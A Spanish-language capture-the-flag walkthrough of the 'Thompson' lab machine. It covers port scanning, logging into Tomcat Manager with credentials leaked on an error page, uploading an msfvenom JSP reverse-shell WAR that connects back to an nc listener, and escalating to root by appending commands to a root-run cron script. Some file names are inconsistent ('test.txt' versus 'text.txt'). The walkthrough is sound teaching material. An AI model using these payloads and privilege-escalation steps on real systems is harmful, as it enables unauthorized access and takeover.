

# Thompson

### ESCANEO DE PUERTOS

Primero para verificar la conectividad con nuestra máquina objetivo, es útil lanzar un comando de **ping** se utiliza para enviar un único paquete:


```
ping -c1 {IP}
```


<figure><figcaption></figcaption></figure>

Ahora, procedemos a realizar un escaneo de puertos utilizando el comando **nmap**.


```
sudo nmap -p- -open -sS --min-rate 5000 -vvv -n -Pn {IP} -oG allPorts
```


Al ejecutar este comando con privilegios de administrador en Kali Linux y especificar la dirección IP de la máquina objetivo, realizará un escaneo completo de todos los puertos abiertos en el destino especificado:

<figure><figcaption></figcaption></figure>

En el ejemplo que se muestra, se han identificado tres puertos abiertos:

* **Puerto 22/TCP SSH**: El puerto 22 es utilizado por el protocolo SSH (Secure Shell) para proporcionar acceso seguro a través de una red. SSH se utiliza comúnmente para administrar sistemas remotos de forma segura y permite la autenticación y el cifrado de la comunicación.
* **Puerto 8009/TCP AJP13**: El puerto 8009 se utiliza para el protocolo AJP13 (Apache JServ Protocol 1.3), que es un protocolo utilizado para la comunicación entre un servidor web y un contenedor de servlets como Apache Tomcat. AJP13 es utilizado para mejorar el rendimiento y la eficiencia en entornos de aplicaciones web.
* **Puerto 8080/TCP HTTP**: El puerto 8080 es comúnmente utilizado para el tráfico HTTP (Hypertext Transfer Protocol). Es un puerto alternativo utilizado para acceder a un servidor web. En este caso, se menciona que Apache Tomcat está ejecutándose en este puerto, lo que sugiere la presencia de un servidor web Tomcat al que se puede acceder a través de un navegador web.

Nos centraremos en el **Puerto 8080/TCP** y su servidor **HTTP** dado que se trata de un servidor Tomcat, que generalmente es vulnerable.

### **PUERTO 8080/TCP HTTP**

Podemos ver que en el puerto 8080 se está ejecutando Apache Tomcat, lo cual sugiere que podemos acceder a través de `<ip_address>:8080` al servidor **HTTP** a través de un navegador web. &#x20;

Al acceder nos encontramos con la pagina predeterminada de **Tomcat** que generalmente es vulnerable o tiene algún tipo de credenciales predeterminadas disponibles.

<figure><figcaption></figcaption></figure>

Podemos intentar acceder a Manager App ya que desde allí podemos acceder al panel de control de Tomcat, pero nos pide unas credenciales las cuales no conocemos.&#x20;

<figure><figcaption></figcaption></figure>

Sin embargo, una vez pulsamos el botón Cancelar nos redirige a una página de error de acceso no autorizado que nos muestra las credenciales para acceder al menú de administrador, una vulnerabilidad que vamos a explotar.

<figure><figcaption></figcaption></figure>

Utilizamos para acceder al panel Tomcat Web Application Manager o panel de administrador y observamos que efectivamente son las credenciales del administrador del servidor HTTP. Ahora tenemos acceso al gestor de aplicaciones.

<figure><figcaption></figcaption></figure>

Tomcat ofrece la posibilidad de subir un fichero de tipo .war directamente en el gestor de aplicaciones. Esto significa que podemos cargar un fichero útil y luego navegar hacia el para que se ejecute.

Por lo tanto, podemos crear un **payload** personalizado utilizando **msfvenom**, subirlo al servidor y obtener un **shell inverso** en la máquina. Un gran recurso donde encontrar diversas formas para explotar Tomcat Manager es el articulo [Multiple Ways to Exploit Tomcat Manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/).

En nuestro caso crearemos el siguiente **payload** en **WAR:**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP_LOCAL} LPORT=4444 -f war > /ruta/shell.war
```

<figure><figcaption></figcaption></figure>

Este comando básicamente crea una carga útil de **shell inversa** con la dirección IP del localhost y el puerto local de escucha. Todo esto lo almacena dentro de un archivo WAR.

| Switches  | Function                                                                                     |
| --------- | -------------------------------------------------------------------------------------------- |
| -p        | Determinar el payload que se va a utilizar.                                                  |
| -f        | Determinar el tipo de archivo de salida.                                                     |
| LHOST     | Dirección IP a la cual la máquina víctima debe conectarse (dirección IP del atacante).       |
| LPORT     | Puerto en el cual la máquina víctima debe conectarse (donde el atacante estaría escuchando). |

Ahora podemos cargar nuestro archivo WAR a través del administrador de aplicaciones del servidor Tomcat de la maquina objetivo.

<figure><figcaption></figcaption></figure>

Antes de acceder al archivo, debemos iniciar un listener en nuestra maquina atacante utilizando el comando `nc -nvlp 4444`. Y en cuanto accedamos al archivo, obtendremos un **shell inverso** en nuestra maquina.

<figure><figcaption></figcaption></figure>

Ya estamos conectados, ahora podremos navegar por la maquina victima hasta encontrar las Flags que necesitamos. En este caso las flags que nos pide la prueba son los ficheros:

* user.txt&#x20;
* root.txt

#### **USER.TXT**

Para encontrar nuestra primera flag debemos navegar hasta el directorio `/home/jack` donde se encuentra el fichero **user.txt** el cual contiene la primera respuesta de la prueba.

Usaremos el comando `cd` para retroceder dos veces en los directorios hasta alcanzar el directorio raíz donde se encuentra `/home` y el comando `ls` para listar el contenido del directorio en el que nos encontramos.

<figure><figcaption></figcaption></figure>

Entramos en el directorio `/home` utilizando `cd /home` y listamos el contenido dentro del directorio. Observamos que dentro se encuentra la carpeta `jack` así que accedemos a ella y listamos su contenido.

<figure><figcaption></figcaption></figure>

Hemos encontrado varios ficheros de nuestro interés:

* **id.sh**: Este archivo es un script de shell utilizado
* **test.txt**: Este archivo es un archivo de texto
* **user.txt**: Este archivo parece ser un archivo de texto

Para obtener la respuesta a nuestra primera pregunta y capturar nuestra primera bandera del reto, tendremos que realizar el comando `cat user.txt` para ver el contenido del fichero.

<figure><figcaption></figcaption></figure>

#### **ROOT.TXT**

Vamos a analizar el contenido de los otros dos ficheros que hemos encontrado en el directorio.

<figure><figcaption></figcaption></figure>

Observamos lo siguiente:

* **id.sh** es un fichero que lee la id y lo escribe en el archivo `test.txt`.
* **text.txt** al observar este archivo nos deja claro que el script se esta ejecutando con privilegios de root.

Teniendo en cuenta la información obtenida de estos ficheros, llegamos a la conclusión de que todo lo que tenemos que hacer es modificar el contenido del ejecutable `id.sh` para leer el indicador y guardarlo en `test.txt`.

Como el objetivo es solo ller el indicador, simplemente vamos a poner un comando para leer el indicador de root.

```
echo 'cat /root/root.txt >> test.txt' >> id.sh
```

Como estamos intentando ejecutar el script nosotros mismos, su ejecución se esta realizando con nuestros permisos por esto no podremos realizarlo y nos indicara que no tenemos permiso de ejecución.&#x20;

Tendremos que investigar como se estaba ejecutando el script como root, a simple vista podríamos llegar a la conclusión de que es un trabajo automatizado.

Vamos a ver el contenido del fichero contab para comprobar los trabajos:

```
cat /etc/crontab
```

<figure><figcaption></figcaption></figure>

Exactamente, el script es un trabajo automatizado por lo que tan solo tendremos que esperar a que comience su ejecución y obtendremos nuestra segunda flag.

Vamos a introducir los siguientes comandos para ejecutar el script:

```
echo '#!/bin/bash' > id.sh
```

```
echo 'cat /root/root.txt > text.txt' >> id.sh
```

Esperaremos que se realice el cronjob para leer el fichero test.txt y obtener el indicador de root.

<figure><figcaption></figcaption></figure>
